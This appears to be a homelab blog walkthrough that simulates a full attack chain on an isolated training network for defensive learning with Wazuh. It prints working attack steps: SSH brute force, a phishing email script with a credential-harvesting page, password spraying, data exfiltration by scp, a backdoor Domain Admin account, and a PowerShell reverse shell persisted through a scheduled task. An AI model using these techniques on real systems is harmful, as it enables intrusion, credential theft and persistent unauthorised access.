





With the vulnerable environment fully configured, the next step is to simulate a realistic end-to-end cyber attack against the **Project X** network.

<!--more-->

In this part of the series, the attack is carried out from the perspective of a financially motivated threat actor operating from the Kali Linux attacker node inside the **Business-in-a-Box** homelab.

The objective is to:
- Gain initial access
- Move laterally across the network
- Escalate privileges
- Exfiltrate sensitive data
- Establish persistence inside the domain

The simulation follows the **Cyber Attack Lifecycle**, where each phase naturally progresses into the next - closely resembling how real-world attacks unfold inside enterprise environments.

> ⚠️ **Disclaimer:** This simulation is performed entirely inside an isolated homelab environment for cybersecurity education and defensive research purposes only.



*Figure 1 shows the overall cyber attack lifecycle used throughout this simulation, from reconnaissance to persistence.*



*Figure 2 shows the attack path between the attacker machine, enterprise hosts, email infrastructure, and domain controller during the simulation.*

## The Scenario

Our attacker is financially motivated, targeting Project X to steal proprietary files and credentials. They're operating from the Kali Linux machine (`project-x-attacker`, `10.0.0.50`), treating `project-x-corp-server` as if it were internet-facing.

| | |
|---|---|
| 🧠 **Attacker Motive** | Financially Motivated |
| 🏆 **Goal** | Exfiltrate sensitive data and maintain persistent access |

## Phase 1 - Reconnaissance

**VMs Required:** `project-x-sec-box`, `project-x-corp-server`, `project-x-attacker`

Reconnaissance is about gathering as much information as possible before touching anything. The goal is to map the target's systems and identify potential entry points - without triggering any alarms.

On the attacker machine, we run an Nmap scan across the network:

```bash
nmap -p1-1000 -Pn -sV 10.0.0.8/24
```


The results reveal that `10.0.0.8` (`project-x-corp-server`) is up and running **SSH on port 22**. We don't yet know what kind of server this is - a jumphost, a license server, or something else entirely. But SSH is open, and that's enough to proceed.

### Brute-Forcing SSH with Hydra

We use Hydra with the `rockyou.txt` wordlist - a dictionary of millions of commonly used passwords that ships with Kali:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8
```

![Hydra brute-force command running and then returning a successful hit, the output line showing `[22][ssh], host: 10.0.0.8, login: root, password: november`.](screenshot2.png)

After a few minutes, Hydra returns a hit. We log in:

```bash
ssh root@10.0.0.8
# password: november
```


We're in. Reconnaissance has transitioned directly into initial access.

## Phase 2 - Initial Access

**VMs Required:** `project-x-sec-box`, `project-x-corp-server`, `project-x-attacker`, `project-x-linux-client`

Initial access means establishing a foothold. We've already broken into the corporate server - now we need to understand what it is and what else we can reach from here.

### Post-Compromise Reconnaissance on project-x-corp-server

```bash
cat /etc/os-release     # OS version and distro
hostname                # device hostname
ip a                    # IP address and interfaces
netstat -tuln           # active listening services
ps aux                  # running processes
ls -la /home            # check user directories
find / -name "password" 2>/dev/null   # hunt for credential files
```


One finding stands out: **SMTP port 1025 is listening**. Querying the MailHog API directly:

```bash
curl http://10.0.0.8:8025/api/v2/messages
```


### Setup the Phish

On the attacker machine, we set up a credential-harvesting website - a fake "password verification" page that logs whatever a user types in:

```bash
cd /var/www/html
git clone https://github.com/collinsmc23/projectsecurity-e101
sudo touch /var/www/html/creds.log
sudo chmod 666 /var/www/html/creds.log
sudo service apache2 start
```


### Send the Phishing Email

From the SSH session on `project-x-corp-server`, we create a Python script that sends a phishing email impersonating the ProjectX Security Team, with a link pointing back to our attacker machine at `10.0.0.50`:

```python
import smtplib
from email.message import EmailMessage

msg = EmailMessage()
msg["Subject"] = "Update Password!"
msg["From"] = "corpserver@example.com"
msg["To"] = "janed@linux-client"
msg.set_content("Hey Jane! This is HR, make sure to update your password info.")

html_content = """
<html><body>
  <p>Hey Jane!<br>
  We noticed an unusual login attempt on your account...
  Please verify your credentials within the next 24 hours.
  <br><br>
  <a href='http://10.0.0.50'>Verify My Account</a>
  </p>
</body></html>
"""
msg.add_alternative(html_content, subtype='html')

with smtplib.SMTP("localhost", 1025) as server:
    server.send_message(msg)
```

```bash
sudo python3 send_email.py
```

### The Phish Lands

On `project-x-linux-client`, the email poller picks up the new message from MailHog and alerts the terminal. Jane sees the notification and clicks the link.




Going back to the attacker machine:

```bash
cat /var/www/html/creds.log
```


We use those credentials to SSH into the Linux client:

```bash
ssh janed@10.0.0.101
```


## Phase 3 - Lateral Movement + Privilege Escalation

**VMs Required:** `project-x-sec-box`, `project-x-linux-client`, `project-x-win-client`, `project-x-dc`, `project-x-attacker`

From `project-x-linux-client`, we run another Nmap scan to map the rest of the network:

```bash
nmap -Pn -p1-65535 -sV 10.0.0.0/24
```


Ports 5985 and 5986 are open on `10.0.0.100` - those are WinRM ports. WinRM is a legitimate Windows administration protocol that is commonly abused for lateral movement and remains highly relevant in today's threat landscape.

### Password Spraying with NetExec

We create `users.txt` and `pass.txt` with the administrator credentials from our earlier reconnaissance:

```bash
# users.txt
Administrator

# pass.txt
@Deeboodah1!
```

```bash
nxc winrm 10.0.0.100 -u users.txt -p pass.txt
```

![`nxc winrm` command output returning a successful hit, the green `[+] 10.0.0.100 Administrator:@Deeboodah1! (Pwn3d!)` line confirming the credential spray worked.](screenshot14.png)

### Establishing a Shell with Evil-WinRM

```bash
evil-winrm -I 10.0.0.100 -u Administrator -p @Deeboodah1!
```


We now have a PowerShell session on `project-x-win-client` as Administrator. Privilege escalation achieved.



## Phase 4 - Lateral Movement 2.0 (Pivoting to the Domain Controller)

**VMs Required:** `project-x-sec-box`, `project-x-win-client`, `project-x-dc`, `project-x-attacker`

From inside the Windows client session, we check what domain this workstation belongs to:

```powershell
nltest /dsgetdc:
```


The domain controller is at `10.0.0.5` and port **3389 (RDP)** is open. Since we have valid Administrator credentials, we try RDP from the attacker machine using XFreeRDP:

```bash
xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com
```


We're now on the **Domain Controller**. Browsing the file system, we find exactly what we're after inside `C:\Users\Administrator\Documents\ProductionFiles\secrets.txt`.


## Phase 5 - Data Exfiltration

**VMs Required:** `project-x-sec-box`, `project-x-dc`, `project-x-attacker`

With access to the domain controller and the file located, we use `scp` to copy it directly to the attacker machine:

```cmd
scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt
```




## Phase 6 - Persistence

**VMs Required:** `project-x-sec-box`, `project-x-dc`, `project-x-attacker`

The attack isn't over until we ensure we can return. Persistence means maintaining access even after a reboot or partial remediation.

### Create a Backdoor Account

On the domain controller, using the active session:

```cmd
net user project-x-user @mysecurepassword1! /add
net localgroup Administrators project-x-user /add
net group "Domain Admins" project-x-user /add
net user project-x-user /domain
```


### Scheduled Task with Reverse Shell

We create a basic PowerShell reverse shell script (`reverse.ps1`) on the attacker machine, host it with a Python HTTP server, and download it onto the domain controller:

```bash
# On attacker machine - create the reverse shell script
sudo nano reverse.ps1
```

```powershell
$ip = "10.0.0.50"   # Attacker IP
$port = 4444
$client = New-Object System.Net.Sockets.TCPClient($ip, $port)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
$writer.AutoFlush = $true
$writer.WriteLine("Connected to reverse shell!")
while ($true) {
    try {
        $command = $reader.ReadLine()
        if ($command -eq 'exit') { break }
        $output = Invoke-Expression $command 2>&1
        $writer.WriteLine($output)
    } catch {
        $writer.WriteLine("Error: $_")
    }
}
$client.Close()
```

Serve the script from the attacker machine:

```bash
python -m http.server
```

On the DC, download `reverse.ps1` to `C:\Users\Administrator\AppData\Local\Microsoft\Windows\` via the browser at `http://10.0.0.50:8000`, then schedule it as a daily task:

```cmd
schtasks /create /tn "PersistenceTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc daily /st 12:00
```

Start the listener on the attacker machine:

```bash
nc -lvnp 4444
```

Manually trigger the shell on the DC to test it:

```powershell
Set-ExecutionPolicy Unrestricted -Scope Process
.\reverse.ps1
```


## Phase 7 - Defense Evasion

At this stage, a real attacker would work to cover their tracks - clearing event logs, obfuscating the backdoor account name, disabling endpoint security controls, or removing indicators of compromise from the SIEM. In this lab, the focus has been on demonstrating how each stage of the attack creates a detectable footprint in Wazuh. Defense evasion techniques are a topic for a dedicated future write-up.

## Conclusion

And that completes the full lifecycle - from reconnaissance through to persistence.

Is this a perfect replica of a real-world attack? No - in reality, the attacker's machine would never sit on the same subnet as the target, and modern enterprise environments are far better hardened than what we've configured here. But that's not the point.

The value of an exercise like this is developing an intuition for **how attacks chain together**, why misconfigurations matter, and how defensive tools like Wazuh create visibility at each phase. Every command run left a log somewhere. Every lateral movement generated an authentication event. Every file access triggered a FIM alert.

That's the lesson: **attackers leave footprints. It's our job to know where to look.**

*Stay tuned for future posts where I'll explore more advanced network attack scenarios, cloud security labs, and deeper SIEM analysis.*
